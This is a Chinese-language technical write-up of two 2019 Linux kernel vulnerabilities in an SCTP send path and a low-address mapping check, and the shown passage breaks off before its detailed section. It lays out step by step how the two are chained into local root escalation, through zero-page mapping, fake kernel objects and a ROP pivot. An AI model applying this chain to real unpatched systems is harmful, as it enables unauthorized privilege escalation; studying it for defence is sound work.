










# 【Kernel Exploit】CVE-2019-8956 & CVE-2019-9213 漏洞分析

## 1. 测试环境

**测试版本**：Linux-4.20.7 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/4.20.7/01/bzImage)

笔者测试的内核版本是 `Linux (none) 4.20.7 #1 SMP Wed Feb 18 20:51:07 CST 2026 i686 Linux`。

**编译选项**：开启`CONFIG_IP_SCTP`、`CONFIG_IP_VS_PROTO_SCTP`、`CONFIG_INET_SCTP_DIAG`、`CONFIG_SCTP_DBG_OBJCNT`、`CONFIG_SCTP_DEFAULT_COOKIE_HMAC_SHA1`、`CONFIG_SCTP_COOKIE_HMAC_MD5`、`CONFIG_SCTP_COOKIE_HMAC_SHA1`、`CONFIG_NF_CT_PROTO_SCTP`、`CONFIG_NF_NAT_PROTO_SCTP`、`CONFIG_NETFILTER_XT_MATCH_SCTP`、`CONFIG_THREAD_INFO_IN_TASK`、`CONFIG_MEMCG`、`CONFIG_MEMCG_KMEM`、`CONFIG_CGROUPS`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_FUSE_FS`、`CONFIG_USERFAULTFD`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`、`CONFIG_E1000E`、`CONFIG_PACKET`、`CONFIG_PACKET_DIAG`、`CONFIG_USER_NS`、`CONFIG_NET_NS`、`CONFIG_NAMESPACES`、`CONFIG_CHECKPOINT_RESTORE`、`CONFIG_IPC_NS`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/4.20.7/01/.config)。

**保护机制**：SMEP/KPTI

## 2. 漏洞背景

### 2-1. 漏洞概述

本实验涉及的两个漏洞均存在于 Linux 内核 4.20.7 中，可组合用于本地权限提升：

- **CVE-2019-8956**：位于 `net/sctp/socket.c` 的 `sctp_sendmsg()` 函数。当用户通过 `sendmsg()` 发送同时设置了 `SCTP_SENDALL` 和 `SCTP_ABORT` 标志的 SCTP 消息时，内核进入 `SCTP_SENDALL` 处理分支，使用非安全的 `list_for_each_entry` 宏遍历端点关联链表 `ep->asocs`。在第一次循环中，`sctp_sendmsg_check_sflags` 检测到 `SCTP_ABORT` 后触发关联释放，`list_del` 将被删除关联的 `asocs.next` 和 `asocs.prev` 分别置为 `LIST_POISON1`（`0x100`）和 `LIST_POISON2`（`0x200`）。由于 `sctp_sendmsg_check_sflags` 返回 `0`，循环执行 `continue` 进入下一次迭代。此时 `list_for_each_entry` 读取已被毒化的 `next` 指针（`0x100`），并通过 `container_of` 计算出下一个关联的地址：`0x100 - 0x44 = 0xbc`（32 位系统下 `asocs` 字段在 `struct sctp_association` 中的偏移量为 `0x44`）。这个接近 NULL 的地址 `0xbc` 落在零页范围内。若操作者已通过 **CVE-2019-9213** 将虚拟地址 0 映射为可写页面，并在地址 `0xbc` 处预先布置伪造的 `sctp_association` 对象及其相关的 `sctp_sock`、`sctp_sm_table_entry` 等内核结构，则后续的 `sctp_sm_lookup_event` 将从伪造结构中读取函数指针，从而实现控制流劫持。

- **CVE-2019-9213**：位于 `mm/mmap.c` 的 `expand_downwards()` 函数。commit `8869477a49c3` 为防范栈扩展到低地址而在 `expand_downwards()` 中引入了 `security_mmap_addr()` 检查，但该检查内部使用 `current_cred()` 判断能力。当通过 `/proc/self/mem` 的 write 路径触发时，完整的调用链为 `mem_write → mem_rw → access_remote_vm → __access_remote_vm → get_user_pages_remote → __get_user_pages_locked → __get_user_pages → find_extend_vma → expand_stack → expand_downwards → security_mmap_addr → cap_mmap_addr`。在此上下文中，`current_cred()` 取自发起 write 的进程（而非目标 VMA 所属进程），使得具有 `CAP_SYS_RAWIO` 能力的辅助进程可绕过 `mmap_min_addr` 限制，将虚拟地址 0 映射为用户可写页面。

两个漏洞单独看威胁有限：**CVE-2019-8956** 单独只能触发一个接近 NULL 的解引用，若无零页映射则无法稳定利用；**CVE-2019-9213** 仅能映射零页但缺乏后续利用点。然而在无 SMAP 的环境下，二者可巧妙串联：先用 **CVE-2019-9213** 在地址 0 布置伪造内核对象，再用 **CVE-2019-8956** 触发接近 NULL 的解引用劫持控制流，最终获得 root 权限。这种组合利用方式正是本节将要详细分析的核心。

### 2-2. 引入历史

- **CVE-2019-8956**：SCTP（Stream Control Transmission Protocol）协议栈的 `sctp_sendmsg()` 函数在处理 `SCTP_SENDALL` 标志时，遍历端点关联链表使用了非安全的 `list_for_each_entry` 宏。当同时指定 `SCTP_ABORT` 时，`sctp_sendmsg_check_sflags` 会在循环体内触发关联的释放操作（`list_del`），但返回 `0` 指示无需进一步处理，循环继续执行 `continue`。此时链表已被破坏，`next` 指针被毒化为 `LIST_POISON1`，导致下一次迭代计算出错误的关联地址。该缺陷自 SCTP 协议栈引入 `SCTP_SENDALL` 与 `SCTP_ABORT` 组合功能时便存在，直到 4.20.7 仍未修复。补丁 `ba59fb027307` 于 **v4.20.8** 合入主线（4.19 稳定分支则于 4.19.21 修复），将遍历宏改为 `list_for_each_entry_safe`，确保在删除节点后仍能安全获取下一个节点。值得注意的是，该漏洞的触发条件极为简单——仅需一次精心构造的 `sendmsg()` 调用，无需额外操作，这使得它在实际利用中非常可靠。

- **CVE-2019-9213**：该漏洞并非"从无到有"的功能缺陷，而是一次**防护性补丁本身的上下文误用**。在 Linux 内核早期实现中，`expand_downwards()` 对栈向下扩展的地址下限并未显式检查 `mmap_min_addr`，仅靠用户态 mmap 侧的 `security_mmap_addr()` 拦一道。commit `8869477a49c3`（"security: protect from stack expansion into low vm addresses"）的作者意识到"用户可通过栈扩展绕过低地址防护"这一场景，于是把 `security_mmap_addr()` 直接搬进了 `expand_downwards()` 开头，意图让栈扩展路径也走一遍能力检查。然而 `security_mmap_addr()` 底层调用 `cap_capable(current_cred(), ...)`，`current_cred()` 取自**当前执行线程**。当通过 `/proc/self/mem` 的 write 路径触发 VMA 扩展时，完整的调用链为 `mem_write → mem_rw → access_remote_vm → __access_remote_vm → get_user_pages_remote → __get_user_pages_locked → __get_user_pages → find_extend_vma → expand_stack → expand_downwards → security_mmap_addr → cap_mmap_addr`。在此链中，`current` 是发起 write 的进程而非目标 VMA 所属进程。若借助一个拥有 `CAP_SYS_RAWIO` 的 setuid-root 辅助进程（如 `su`）作为 write 发起方，能力检查就会被放行，从而把 VMA 扩展到地址 0。该问题在内核版本 < 4.20.14 中普遍存在，补丁 `0a1d52994d44` 将其修复，把 `security_mmap_addr()` 替换为直接与 `mmap_min_addr` 比较，彻底消除对 `current_cred()` 的依赖。这个案例生动地说明了安全补丁若不充分考虑调用上下文，反而可能引入新的绕过途径。

### 2-3. 触发条件

- **CVE-2019-8956**：
    - 需要 `CONFIG_IP_SCTP` 等编译选项开启（实验环境已满足）。
    - 操作者需具备创建 `AF_SCTP` socket 的权限（普通用户即可），且 socket 须为 UDP 样式（`sctp_style(sk, UDP)` 为真）。
    - 端点至少有一个已建立的关联（association）。通过 `sendmsg()` 发送一条设置了 `SCTP_SENDALL` 和 `SCTP_ABORT` 标志的 SCTP 消息。`sctp_sendmsg` 进入 `SCTP_SENDALL` 处理分支，遍历 `ep->asocs` 链表。第一次循环中，`sctp_sendmsg_check_sflags` 检测到 `SCTP_ABORT` 后触发关联释放（`list_del` 将 `next` 置为 `LIST_POISON1`），并返回 `0`。循环执行 `continue`，下一次迭代读取毒化的 `next` 指针（`0x100`），经 `container_of` 计算得到 `0xbc`，从而解引用接近 NULL 的地址。
    - **整个过程仅需一次 `sendmsg()` 调用**，无需关闭 socket 或等待异步事件。

- **CVE-2019-9213**：
    - 需要一个拥有 `CAP_SYS_RAWIO` 能力的辅助进程。典型手法是利用 `su` 的 setuid-root 特性：`su` 运行时具有 root 权限，因而具备 `CAP_SYS_RAWIO`。
    - 操作者首先在自己的进程中创建一个初始匿名映射，地址为 `0x10000`，并带有 `MAP_GROWSDOWN` 标志，表示该 VMA 可向下扩展。
    - 通过辅助进程向 `/proc/self/mem` 写入数据，触发内核调用 `mem_write → ... → expand_downwards → security_mmap_addr → cap_mmap_addr`。由于辅助进程（`su`）具有 `CAP_SYS_RAWIO`，即使目标地址低于 `dac_mmap_min_addr`（默认 `0x10000`），检查仍通过，VMA 得以向下扩展。
    - 逐步将 VMA 起始地址降低，最终扩展到地址 `0`。此后操作者可用 `MAP_FIXED` 将物理页面映射到虚拟地址 `0`，实现对零页的完全控制。

### 2-4. 根因分析

- **CVE-2019-8956**：

    两条调用链如下：

    **调用链一（遍历过程中删除当前节点，导致 next 指针被毒化）：**

    ```
    sendmsg()
      └─ sctp_sendmsg()
           └─ if ((sflags & SCTP_SENDALL) && sctp_style(sk, UDP))
                └─ list_for_each_entry(asoc, &ep->asocs, asocs)   // 非安全遍历
                     └─ sctp_sendmsg_check_sflags(asoc, sflags, msg, msg_len)
                          └─ 检测到 SCTP_ABORT → DECLARE_PRIMITIVE(ABORT)
                               └─ sctp_do_sm()
                                    └─ sctp_side_effects()
                                         └─ sctp_cmd_interpreter()
                                              └─ sctp_cmd_delete_tcb()
                                                   └─ sctp_association_free(asoc)
                                                        └─ list_del(&asoc->asocs)
                                                             // asoc->asocs.next = LIST_POISON1 (0x100)
                                                             // asoc->asocs.prev = LIST_POISON2 (0x200)
                          └─ 返回 0 → continue 进入下一次循环
    ```

    **调用链二（下一次循环读取毒化指针，计算错误地址）：**

    ```
    循环继续：
      list_for_each_entry 读取 asoc->asocs.next = 0x100
      计算下一个 asoc = container_of(0x100, struct sctp_association, asocs)
      由于 asocs 偏移量为 0x44，asoc = 0x100 - 0x44 = 0xbc
      此时 asoc 指向零页上地址 0xbc，操作者可在此处布置伪造的结构体
    ```

    关键代码片段（sctp_sendmsg 中 SCTP_SENDALL 处理）：

    ```c
    if ((sflags & SCTP_SENDALL) && sctp_style(sk, UDP)) {
        list_for_each_entry(asoc, &ep->asocs, asocs) {
            err = sctp_sendmsg_check_sflags(asoc, sflags, msg, msg_len);
            if (err == 0)
                continue;          // 关联已被删除，但循环继续
            if (err < 0)
                goto out_unlock;
            // ... 后续处理
        }
        goto out_unlock;
    }
    ```

    当 `sctp_sendmsg_check_sflags` 返回 `0` 时，循环执行 `continue`，但此时 `asoc` 已被释放，其 `asocs.next` 被毒化为 `0x100`。下一次迭代中，`list_for_each_entry` 读取 `0x100` 作为下一个节点，经 `container_of` 得到 `0xbc`。随后内核会通过 `sctp_sm_lookup_event` 从伪造的 `asoc` 结构中读取 `asoc->sm_table` 指针，进而调用伪造的 `sctp_sm_table_entry->fn` 函数指针。由于 `asoc` 地址为 `0xbc`，而零页已被映射，操作者可以在地址 `0xbc` 处放置一个精心构造的 `sctp_association` 对象，使得整个解引用链最终指向一个可控的栈迁移 gadget，从而将内核栈切换到零页上预置的 ROP 链，实现控制流劫持。

- **CVE-2019-9213**：

    当操作者通过向 `/proc/self/mem` 写入数据时，内核沿以下调用链执行：

    ```
    mem_write
      └─ mem_rw
           └─ access_remote_vm
                └─ __access_remote_vm
                     └─ get_user_pages_remote
                          └─ __get_user_pages_locked
                               └─ __get_user_pages
                                    └─ find_extend_vma
                                         └─ expand_stack
                                              └─ expand_downwards
                                                   └─ security_mmap_addr
                                                        └─ cap_mmap_addr
    ```

    `expand_downwards()` 中调用 `security_mmap_addr(address)`，后者最终抵达 `cap_mmap_addr()`：

    ```c
    int cap_mmap_addr(unsigned long addr) {
        if (addr < dac_mmap_min_addr) {        // dac_mmap_min_addr = 0x10000
            ret = cap_capable(current_cred(), ...);
            ...
        }
    }
    ```

    问题在于 `current_cred()` 取自 **当前执行线程**。在整个调用链中，`current` 始终是发起 write 的进程——即 `su` 命令所代表的进程。`su` 具有 `CAP_SYS_RAWIO`，因此 `cap_capable` 返回 0，允许将 VMA 扩展到低于 `dac_mmap_min_addr` 的地址（包括 0）。利用代码通过逐步降低写入地址，最终将 VMA 起始地址降至 `0`。

### 2-5. 影响范围

- **CVE-2019-8956**：
    - 影响所有启用 SCTP 协议栈且内核版本 **≤ 4.20.7**（4.20.8 已通过 commit `ba59fb027307` 修复），以及 **4.19.x ≤ 4.19.20**（4.19.21 修复）的系统。
    - 默认情况下，主流发行版（如 Ubuntu、Debian）通常不加载 SCTP 模块，但若管理员手动启用或内核编译为内置，则受影响。
    - 单独利用需要 SMAP 关闭或存在其他绕过手段（因为需要在零页布置伪造对象，且内核需能直接读取用户空间数据）。

- **CVE-2019-9213**：
    - 影响所有 Linux 内核版本 < 4.20.14 的系统，无论是否启用 SCTP。
    - 需要系统中存在一个具有 `CAP_SYS_RAWIO` 能力的 setuid-root 程序（如 `su` 等），且操作者能触发其向 `/proc/self/mem` 写入。
    - 该漏洞本身仅提供零页映射，必须与其他接近 NULL 解引用的漏洞配合才能实现提权。

- **实验环境**：Linux 4.20.7，开启 SMEP、KPTI，**未开启 SMAP**，SCTP 内置，符合两个漏洞的利用条件。这种配置恰好处于"有足够防护但又留有缺口"的状态：SMEP 阻止直接执行用户空间代码，但 SMAP 的缺失使得内核可以读取用户空间伪造的结构体，为利用提供了可行性。

### 2-6. 本质总结

两个漏洞的本质均为**状态管理缺失**与**权限检查上下文错误**的组合：

- **CVE-2019-8956**：非安全的链表遍历宏 `list_for_each_entry` 在循环体内删除当前节点后，未正确处理后续节点的获取，导致读取毒化指针并计算出错误的地址。触发路径极为直接——只需一次精心构造的 `sendmsg()` 调用，即可在遍历过程中引发接近 NULL 的解引用。两条调用链清晰地展示了错误如何从 `sctp_sendmsg` 传播至 `list_del` 再回到遍历循环，其中 `container_of` 宏根据毒化的 `next` 指针（`0x100`）计算出地址 `0xbc`，是解引用的直接原因。而解引用发生后，内核会沿着伪造的 `sctp_association` 结构体中的指针链读取用户空间的数据。通过精心构造零页上的数据结构，使得解引用路径最终指向可控的函数指针，仅需控制少量字节即可完成劫持，极大地简化了利用难度。
- **CVE-2019-9213**：`8869477a49c3` 引入的防护逻辑本意是加固，但因 `security_mmap_addr()` 依赖 `current_cred()`，在 `mem_write → mem_rw → access_remote_vm → __access_remote_vm → get_user_pages_remote → __get_user_pages_locked → __get_user_pages → find_extend_vma → expand_stack → expand_downwards → security_mmap_addr → cap_mmap_addr` 这一调用链中，`current_cred()` 取自发起 write 的辅助进程（具有 `CAP_SYS_RAWIO`），而非目标 VMA 所属进程，从而造成能力检查的上下文混淆，使低地址映射限制被绕过。

串联利用的核心思想是：**用 CVE-2019-9213 创造可控的 NULL 页，用 CVE-2019-8956 触发接近 NULL 的解引用，从而将一次原本不可控的崩溃转化为精确的控制流劫持**。在无 SMAP 的保护下，内核可直接访问用户空间的伪造对象，使得提权成为可能。此类组合利用揭示了单一漏洞缓解措施的局限性——只有构建纵深防御体系（如 SMAP + SMEP + KASLR + KPTI + CFI）才能有效阻断这类利用链。

## 3. CVE-2019-8956 漏洞分析

### 3-1. 漏洞概述

